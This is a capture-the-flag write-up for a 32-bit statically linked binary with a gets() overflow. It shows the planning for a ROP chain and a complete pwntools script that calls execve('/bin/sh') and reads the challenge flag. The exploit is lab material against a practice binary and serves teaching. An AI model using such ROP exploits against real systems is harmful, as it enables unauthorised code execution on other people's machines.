






## Full ROP
### Architecture and protections
The binary is x32 with no canary and no PIE.



### Static analysis
`main()` calls `look_at_me()`, which has a vulnerable `gets()`.





### Exploit planning
1. The binary is statically linked, which means that it is likely that all the required gadgets to build a full ROP-chain will be available.
2. Using these gadgets, craft a ROP-chain to call `execve("/bin/sh", "\x00\x00\x00\x00", "\x00\x00\x00\x00")`

### Exploit crafting
#### Register values for `execve` syscall

| reg | contents                   |
|-----|----------------------------|
| eax | 11                         |
| ebx | ptr to `"/bin//sh"`        |
| ecx | ptr to `"\x00\x00\x00\x00"`|
| edx | ptr to `"\x00\x00\x00\x00"`|

#### Finding gadgets using `ropper`
- `search pop eax`
- `search pop ebx`
- `search pop ecx`
- `search pop edx`
- `search mov [%], eax`
- `search int 0x80`

#### Finding region of writable memory using GDB


#### Pad length


### Exploit code
```python
from pwn import *

elf = context.binary = ELF('./goodluck', checksec=False)
context.log_level = "error"

eax = 0x080b81c6
ebx = 0x080481c9
ecx = 0x080de955
edx = 0x0806f02a
mov = 0x080549db
sys = 0x0806cc25
buf = 0x080e9000

payload = flat(
    28 * b'A',

    eax, b"/bin",
    edx, buf,
    mov,

    eax, b"//sh",
    edx, buf+4,
    mov,

    eax, b"\x00\x00\x00\x00",
    edx, buf+8,
    mov,

    eax, 11,
    ebx, buf,
    ecx, buf+8,
    edx, buf+8,
    sys
)

p = process()
p.sendline(payload)
sleep(0.1)
p.sendline(b"cat flag.txt")
p.interactive()

# CDDC2025{I_Wish_You_D_BEST_LUCK}
```

### Exploit success


### References
A similar challenge: [link](https://www.nullhardware.com/reference/hacking-101/picoctf-2018-binary-exploits/can-you-gets-me/)
